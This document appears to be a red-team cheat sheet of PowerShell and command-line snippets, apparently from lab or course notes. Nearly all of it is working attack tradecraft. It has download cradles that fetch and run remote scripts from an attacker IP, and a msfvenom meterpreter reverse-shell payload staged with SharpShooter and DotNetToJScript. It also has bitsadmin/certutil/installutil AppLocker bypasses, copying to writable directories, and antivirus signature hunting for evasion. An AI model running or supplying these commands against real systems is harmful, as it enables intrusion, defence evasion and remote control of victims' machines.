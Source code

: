 # Proxies
## Remap reg hive
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

## Change UA of webclient
```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

## Get Proxy settings as SYSTEM
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}

$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.71/clip.txt")
```
## Create Jscript rev shell and vbscript
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
DotNetToJScript.exe ExampleAssembly.dll --lang=vbscript --ver=v4 -o demo.vbs
```
## Sharpshooter

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
┌──(kali㉿kali)-[/opt/SharpShooter]
└─$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

```
# LOLBINS
## File download and applocker bypass exe

```
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt
certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe
del C:\users\student\enc.txt
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```
# Applocker Bypass
## Copy to unprotected directories
```
copy Bypass.exe C:\Windows\Tasks
C:\Windows\Tasks\Bypass.exe 
```
# AV
## Find signature
```
Import-Module .\Find-AVSignature.ps1
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```
